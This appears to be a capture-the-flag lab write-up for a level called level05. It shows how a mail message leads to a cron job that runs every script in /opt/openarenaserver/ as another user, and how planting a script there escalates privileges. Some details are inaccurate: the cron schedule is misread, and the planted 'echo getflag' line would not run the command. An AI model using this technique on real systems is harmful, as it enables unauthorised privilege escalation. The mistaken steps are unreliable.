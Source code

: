 # This time after we logged in! we received a mail
# We checked the mail: cat /var/mail/level05

# We found:
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

# It's a cron table that execute the script openarenaserver every 30s

# We checked the script, and found that he execute shell scripts in the directory:
/opt/openarenaserver/

# Create an empty file
touch /tmp/flag

# We created a script in this directory to let the main script programmed by the crontab execute 'getflag' command
# Script:
#==================================================
    #!/bin/sh

    echo getflag > /tmp/flag
#==================================================


# After 30s we got the flag in the file: /tmp/flag